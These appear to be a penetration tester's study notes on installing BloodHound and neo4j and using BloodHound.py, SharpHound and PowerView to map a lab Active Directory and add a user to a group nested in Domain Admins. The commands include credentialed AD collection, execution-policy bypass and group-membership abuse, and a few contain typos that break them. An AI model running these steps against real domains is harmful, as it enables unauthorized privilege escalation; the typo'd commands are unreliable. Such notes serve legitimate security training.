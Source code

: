 | SAMPLE DC RESULTS     | FROM SCANS          |
| --------------------- | ------------------- |
| NETBIOS_DOMAIN_NAME   | PENTESTING          |
| NETBIOS_COMPUTER_NAME | DC                  |
| DNS_DOMAIN_NAME       | pentesting.local    |
| DNS_COMPUTER_NAME     | dc.pentesting.local |
| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |


#### WTF Happened install steps
```
sudo apt purge neo4j
```

```
sudo apt install neo47
```

```
sudo neo4j console --verbose
```

Visit http://127.0.0.1:7474/browser/

```
neo4j:neo4j
```

`Bloodhound1!`

```
bloodhound --disable-gpu-sandbox
```

```
sudo mousepad /etc/bhapi/bhapi.json
```

Change neo4j's password to Bloodhound1!

Visit http://127.0.0.1:8080

admin : admin

Change to
Bloodhound1!




#### 71 BloodHound
When using BloodHound, get the latest version here: https://github.com/BloodHoundAD/BloodHound/releases
```
wget https://github.com/BloodHoundAD/BloodHound/releases/download/rolling/BloodHound-linux-x64.zip
```
Also, grab the SharpHound.exe from here: https://github.com/BloodHoundAD/SharpHound/releases/tag/rolling
```
wget https://github.com/BloodHoundAD/SharpHound/releases/download/rolling/SharpHound.zip
```
[[8._BloodHound#SharpHound]]
```bash
sudo neo4j console
```
```
http://localhost:7474/
```
neo4j:neo4j
changed password to password
Now open bloodhound from wherever you downloaded from.
```
cd BloodHound-linux-x64 && ./BloodHound --disable-gpu-sandbox
```
neo4j:password
#### BloodHound python
```bash - kali
cd /opt && sudo git clone https://github.com/fox-it/BloodHound.py
```
```bash - kali
cd BloodHound.py && sudo python setup.py install
```
```bash - kali
sudo bloodhound-python -u $USER -p '$PASSWORD' -d $DOMAIN -ns $TARGET -c All
```
OR
```bash - kali
sudo bloodhound-python -u USER -p 'PASSWORD' -d DOMAIN -ns $TARGET -c DcOnly
```

```bash
sudo neo4j console
```
```bash - kali
bloodhound
```
Right side, click "Upload Data"
Upload .json files to Bloodhound GUI
Type the $USERNAME of the own user in search bar, right click and mark as owned.
Evaluate node details for clues.
#### 72 BloodHound Basics
In top left, click the "pathway" button, fill out the boxes and hit the go triangle button:
Start Node: $USER
Target Node: Domain Admins
This will show you a path from your user to Domain Admins access.
Right click line and look for help?
In this example, our user is a member of a group called "Hidden", which is a member of Domain Admins.  So $GROUPNAME == Hidden.
We can verify this in PS with PowerView.ps1:
```
Import-Module .\PowerView.ps1
```
```
Get-ObjectAcl -SamAccountName $GROUPNAME | ? { ($_.ActiveDirectoryRights -match 'GenericWrite') }
```
```
Add-DomainGroupMemeber -identify '$GROUPNAME' -Members '$USER' -Domain '$NETBIOS_DOMAIN_NAME'
```
Verify the $USER is now part of $GROUPNAME
```
net user $USER /domain
```
#### SharpHound
```bash
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
```
Transfer to Windows
![[Python#Server]]
![[4._File Transfers#Certutil]]
```powershell
powershell -ep bypass
```
```powershell
. .\SharpHound.ps1
```
```powershell
Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip
```

[[4._File Transfers]]
Transfer zip file to kali.
Go back into Kali Bloodhound, upload the file.zip by selecting upload data on the right.

Click "Find all Domain Admins" under Analysis



#### Windows

Install neo4j Desktop

Run it

Make new project : bloodhound

Start the database

http://localhost:7474/browser/

neo4j : bloodhound

run bloodhound

neo4j : bloodhound






